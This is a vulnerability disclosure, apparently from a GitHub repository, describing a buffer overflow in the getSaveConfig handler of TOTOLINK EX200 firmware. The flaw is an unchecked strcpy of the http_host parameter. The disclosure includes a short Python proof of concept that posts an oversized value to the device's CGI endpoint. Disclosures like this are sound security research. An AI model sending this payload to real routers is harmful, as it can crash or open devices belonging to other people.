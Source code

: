 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/data/upload/20210428/7979e841521515eb83b45aacf5b67f9a.zip

## Affected version

EX200 V4.0.3c.7646_B20201211

## Vulnerability details

In the EX200 V4.0.3c.7646_B20201211 firmware has a buffer overflow vulnerability in the `getSaveConfig` function. The `v6` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy((char *)v13, v6);` can cause a buffer overflow vulnerability.

![image-20240719230945874](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230945874.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi?action=save&setting"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720233918538](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720233918538.png)
